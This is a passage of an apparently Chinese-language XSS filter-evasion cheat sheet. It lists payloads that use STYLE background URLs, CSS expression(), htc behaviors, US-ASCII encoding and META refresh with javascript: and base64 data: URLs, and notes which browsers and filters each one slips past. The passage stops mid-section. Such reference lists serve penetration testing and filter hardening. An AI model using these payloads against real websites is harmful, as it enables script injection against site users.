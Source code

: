 ```
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A> 
```

### 使用 background 的 style 标签

```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE> 
```

### 匿名 html 标签的属性

IE6.0 和使用了 ix 渲染引擎的 Netscape 8.1+ 并不会关心你建立的 html 标签存在与否。只要它是以尖括号以及字符开始的。

```
<XSS STYLE="xss:expression(alert('XSS'))"> 
```

### 本地 htc 文件

它有一个小的不同与上面的 xss 向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行 javascript 代码实现 xss。

```
<XSS STYLE="behavior: url(xss.htc);"> 
```

### US-ASCII 编码

US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的 ASCII 编码用 7bits 代替 8bits. 这个 xss 可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII 编码方式。或者你自己去设置这种编码方式 。它是有用的去绕过 web 应用防火墙 xss 过滤比服务器端的过滤。Apache 的 Tomcat 是众所周知的 使用 US-ASCII 编码传输协议。

```
¼script¾alert(¢XSS¢)¼/script¾ 
```

### META

关于 meta refresh 比较奇怪的是他并不是发送一个刷新请求头。因此他通常用于不需要引用 url 的攻击。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');"> 
```

### META using data

URL 指令方案，它是非常的不错因为赢没有明显的 SCRIPT 单词或是 JavaScript 指令出现，因为它使用了 base64 编码。请查看 [RFC 2397](https://tools.ietf.org/html/rfc2397)了解更多信息或是编码你的代码。你也可以使用 [XSS calculator](http://ha.ckers.org/xsscalc.html)去编码你的 html 或是 javascript 代码到 base64 位。

```
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K"> 
```

### 额外 url 参数的 META

如果当前网页试图去查找 URL 参数是否以"http://" 开始，你可以用下列技术绕过（被 Moritz Naumann 提出）
